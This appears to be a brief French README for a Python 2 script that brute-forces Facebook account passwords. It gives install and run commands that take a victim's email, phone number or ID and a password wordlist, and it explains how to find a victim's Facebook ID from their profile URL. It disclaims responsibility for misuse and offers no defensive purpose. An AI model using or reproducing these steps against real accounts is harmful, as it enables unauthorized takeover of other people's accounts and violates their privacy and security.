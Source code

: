 **programme python2 qui fait de la brute force de compte facebook**
**pas responssable de vos acte**

```bash
python2 -m pip install -r requirement.txt
```

``` bash
python2 fb_brute.py -u "Email ou numero de tel ou id" -p list_de_mot_pass.txt
```
#si vous ne savez pas quel est l'identifiant de la victime**

**ouvri un navigateur**
**se connect sur facebook**
**aller sur le profiles de la victime**
**et l'identifiant apparait sur la bar de la navigateur**

```identifiant=facebook*************/id=1000000*******``

